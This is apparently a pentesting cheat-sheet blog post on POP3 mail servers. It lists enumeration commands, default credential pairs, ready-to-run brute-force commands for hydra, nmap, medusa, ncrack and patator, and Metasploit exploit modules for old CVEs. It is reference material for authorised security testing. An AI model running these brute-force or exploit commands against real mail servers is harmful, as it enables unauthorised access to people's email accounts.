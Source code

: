 ```yaml
---
title: POP3 Pentesting Best Practices
categories: [pentesting protocols,pop3]
tags: [pentesting,pop3,best practicies]
comments: true
---
```


# POP3

> POP3 usually uses ports 110, 995
{: .prompt-tip }

# What is POP3?

POP3 stands for Post Office Protocol. As the name suggests, it allows you to use your email inbox like a post office – emails are downloaded onto your computer and removed from the mail server.

When accessing your emails using the POP3 protocol, a copy of the emails is created and stored locally on your computer. The originals are usually, but not always, removed from the mail server. In other words, emails are tied to the specific device. Once the email is downloaded onto one device (and removed from the mail server), it cannot be accessed by another email client or device.

```bash
PORT     STATE SERVICE               VERSION
110/tcp  open  pop3                  Zimbra Collabration Suite pop3d
```

# POP3 Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
| --- |
| port:110, 995 |

## Enumeration

### Banner Grabbing

```bash
telnet 10.10.x.x 110
nc -nv 10.10.x.x 110
nmap -p110 --script=banner 10.10.x.x
nmap -p110 --script=pop3-ntlm-info 10.10.x.x
msf > use auxiliary/scanner/pop3/pop3_version #MetasploitFramework
openssl s_client -connect <IP>:995 -crlf -quiet
```

![Untitled](/assets/img/pitcures/pop3/pop3.png)

### Capabilities

```bash
#All are default scripts
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -port 110 192.168.x.x
# Retrieve POP3 server capabilities (CAPA, TOP, USER, SASL, RESP-CODES, LOGIN-DELAY, PIPELINING, EXPIRE, UIDL, IMPLEMENTATION)  
nmap -v -sV --version-intensity=5 --script pop3-capabilities -p T:110 192.168.x.x
```

![Untitled](/assets/img/pitcures/pop3/pop31.png)

![Untitled](/assets/img/pitcures/pop3/pop32.png)

The `pop3-ntlm-info` plugin will return some "**sensitive**" data (Windows versions).

## POP3 Commands

```bash
POP commands:
  USER uid           Log in as "uid"
  PASS password      Substitue "password" for your actual password
  STAT               List number of messages, total mailbox size
  LIST               List messages and sizes
  RETR n             Show message n
  DELE n             Mark message n for deletion
  RSET               Undo any changes
  QUIT               Logout (expunges messages if no RSET)
  TOP msg n          Show first n lines of message number msg
  CAPA               Get capabilities
```

## Capturing POP3 Packages

```bash
msf > use auxiliary/server/capture/pop3 #MetasploitFramework
```

## POP3 Credentials

### Authentication Checking (classical credentials)

| USER | PASS |
| --- | --- |
| admin | admin |
| root | root |
| root | toor |

### Brute Forcing

```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
hydra -t 2 -L users.list -P passwords.list -M 10.10.x.x.list -s 110 pop3
# Try to bruteforce POP3 accounts
Nmap: pop3-brute –script-args userdb=users.list,passdb=passwords.list
nmap --script pop3-brute --script-args pop3loginmethod=SASL-LOGIN -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=SASL-CRAM-MD5 -p T:110 IP
nmap --script pop3-brute --script-args pop3loginmethod=APOP -p T:110 IP
msf > use auxiliary/scanner/pop3/pop3_login #MetasploitFramework
medusa -t 2 -T 2 -U users.list -P passwords.list -H 10.10.x.x.list -n 110 -M pop3
ncrack -g CL=2 -U users.list -P passwords.list -iL 10.10.x.x.list -p pop3:110 -oA output
patator pop3_login host=10.10.x.x user=FILE1 password=FILE0 0=users.list 1=passwords.list -x ignore:fgrep=’incorrect password or account name’
```

## POP3 Vulnerabilities

```bash
#Seattle Lab Mail 5.5 [CVE-2003-0264]
msf > use exploit/windows/pop3/seattlelab_pass #MetasploitFramework
Exploit-DB: 638.py, 643.c, 646.c
#Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]
msf > use exploit/linux/pop3/cyrus_pop3d_popsubfolders #MetasploitFramework
```